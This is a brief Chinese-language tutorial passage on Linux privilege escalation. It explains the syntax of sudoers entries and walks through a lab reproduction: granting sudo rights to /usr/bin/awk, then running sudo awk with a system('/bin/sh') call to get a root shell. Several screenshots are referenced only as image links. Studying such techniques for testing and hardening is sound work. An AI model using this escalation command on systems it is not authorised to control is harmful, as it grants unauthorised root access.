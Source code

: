 
```
root    ALL=(ALL:ALL) ALL
pio     ALL=(ALL) ALL
说明
用户名   允许连接的ip=执行命令的目标用户:该用户所属的组  执行的命令范围
```

![](./linux提权_image/12.png)




ALL=(ALL) /usr/bin/awk

![](./linux提权_image/14.png)

ALL=(ALL) /usr/bin/awk

##### awk提权复现

编辑/etc/sudoers文件，添加 /usr/bin/awk

```
1、visudo /etc/sudoers
2、将all替换为/usr/bin/awk
3、ctrl + o 
4、回车
5、ctrl +x
6、在普通用户处执行sudo -l 查看可以执行的命令
7、利用   命令： sudo awk 'BEGIN {system("/bin/sh")}'
```

![](./linux提权_image/15.png)
